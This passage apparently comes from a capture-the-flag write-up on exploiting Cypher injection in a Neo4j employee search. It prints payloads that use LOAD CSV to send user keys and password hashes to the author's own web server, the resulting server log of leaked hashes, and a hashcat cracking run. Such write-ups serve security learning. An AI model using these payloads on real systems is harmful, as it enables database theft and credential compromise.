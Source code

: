 It returned all the employees. I also got it to work with string concatenation.

```
search=Jh'%2b'on
```

I had a hard time to go further than that. I kept focussing on trying to avoid having a 500 returned by the application. Eventually I realized that it did not matter. I sent a payload to load some CSV from my machine.

```
search=Sarah' CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.3' as b RETURN b//
```

This gave me an error, but I got a request on my web server.

I tried getting the labels.

```
search=Sarah' CALL db.labels() YIELD label LOAD CSV FROM 'http://10.10.14.3/?label='%2blabel as b RETURN b//
```

I got two.

```
10.10.11.210 - - [07/May/2023 09:05:32] "GET /?label=user HTTP/1.1" 200 -
10.10.11.210 - - [07/May/2023 09:05:32] "GET /?label=employee HTTP/1.1" 200 -
```

With a little more exploration, I got it to send me the user's data.

```
search=Sarah' WITH 1 as a MATCH (f:user) UNWIND keys(f) as p LOAD CSV FROM 'http://10.10.14.3/?'%2bp%2b'='%2btoString(f[p]) as b RETURN b//
```

```
10.10.11.210 - - [07/May/2023 09:32:46] "GET /?password=8c6976e5b5410415bde908bd4dee15dfb167a9c873fc4bb8a81f6f2ab448a918 HTTP/1.1" 200 -
10.10.11.210 - - [07/May/2023 09:32:46] "GET /?username=admin HTTP/1.1" 200 -
10.10.11.210 - - [07/May/2023 09:32:47] "GET /?password=a85e870c05825afeac63215d5e845aa7f3088cd15359ea88fa4061c6411c55f6 HTTP/1.1" 200 -
10.10.11.210 - - [07/May/2023 09:32:47] "GET /?username=john HTTP/1.1" 200 -
```

I had two passwords. I knew that admin's password was admin, but I added them both to a text file anyway. And I used hashcat to crack them.

```bash
$ hashcat -a0 -m1400 --username hash.txt /usr/share/seclists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-sandybridge-AMD Ryzen 7 PRO 5850U with Radeon Graphics, 2862/5789 MB (1024 MB allocatable), 6MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 2 digests; 2 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
```